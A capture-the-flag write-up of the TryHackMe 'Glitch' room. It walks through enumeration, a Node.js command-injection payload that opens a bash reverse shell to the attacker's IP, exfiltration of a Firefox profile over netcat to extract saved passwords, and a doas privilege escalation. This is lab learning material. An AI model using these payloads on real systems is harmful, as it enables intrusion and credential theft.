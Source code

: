 ```yaml
---
title: "Glitch TryHackMe"
date: "07-28-2021"
author: "Reda BELHAJ"
summary: "This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory. Created by @infamous55"
tags: ["TryHackMe", "Ctf", "Writeup"]
image: "/images/GLITCH/bg.png"
---
```

Let’s take a look at the [Glitch CTF](https://tryhackme.com/room/glitch) on TryHackMe Created by **@infamous55**.

## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.204.132 -sC -sS -Pn
```
The “Nmap Output” displayed `1` service running under port 80 you guessed it that's HTTP.
![Nmap](/images/GLITCH/nmap.jpg)

After Inspecting the web application we can see an interesting script at the end of the page:
![Nmap](/images/GLITCH/source.jpg)

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:
![Gobuster](/images/GLITCH/gouster.jpg)

Actually i run two scans one on the main directory of the application and the other one on tha api directory:
![Gobuster](/images/GLITCH/gobuster2.jpg)

## Exploring 
When I look at the script that I found on the source code of the page I decided to browse into the `/api/access` page and I found a token with a base64 encoded value:

```
{"token":"dGhpc19pc19ub3RfcmVhbA=="}
```

So I run this command to decode the token and then I set the cookie and reopen the site:

```
echo dGhpc19pc19ub3RfcmVhbA== | base64 --decode
```
![Token](/images/GLITCH/token.jpg)

With the hint from TryHackMe I decided to try POST method on the items api:

```
curl -X POST http://10.10.204.132/api/items
```

```
{"message":"there_is_a_glitch_in_the_matrix"}
```
It's kinda weird, So There must be a missing parameter or something. Let’s try to fuzz it with **wfuzz**:

```
wfuzz -X POST -w /usr/share/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hc 404,400 http://10.10.204.132/api/items?FUZZ=oops
```
![Wfuzz](/images/GLITCH/wfuzz.jpg)

And Also the “secret” endpoint found with gobuster was just a rabbit hole. After setting the cookie and opening the site, multiple pictures of a rabbit was displayed with a caption that said `Mad`.
![Rabbit](/images/GLITCH/rabbit.png)

## Exploiting
With the payload that we found with **wfuzz** I tried to generate an error:

```
curl -X POST http://10.10.16.166/api/items?cmd=test
```
![Curl](/images/GLITCH/curl.jpg)
It's an error generated by **Node.Js**

### Reverse Shell
I set up my netcat listener on port 4444 and I fired up Burp and sent a POST request with the following encoded payload:

```
require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.8.50.72/4444+0>%261"')
```
![Burp](/images/GLITCH/burp.jpg)

## User Flag
Now we're in the machine and I decided to take a look at the `package.json` to see the tech stack of the web app:
![Build](/images/GLITCH/build.jpg)

Then I found the user.txt file:

```
THM******************
```

## Root Flag
Inside the home directory of the user I notice a firefoz directory and I decided to compress it and download the archive locally to hopefully get some credentials:

```
tar cf - .firefox/ | nc 10.8.174.180 1234
```
```
nc -lvp 1234 | tar xf -
```
With the help of some blogs and videos I found [this blog](https://www.cyberciti.biz/faq/howto-run-firefox-from-the-command-line/) And I run firefox from the Command Line:

```
firefox --profile .firefox/b5w4643p.default-release --allow-downgrade
```
![Pass](/images/GLITCH/pass.jpg)
We can now switch to **v0id**:

![Sudo](/images/GLITCH/sudo.jpg)

And now with a fail `sudo -l` command I searched for files owned by root with the SUID:
```
find / -type f -user root -perm -u=s 2>/dev/null
```

And I found `doas` binary and you can run it and found the root flag:

```
doas -u root /bin/bash
```
```
THM*********************************
```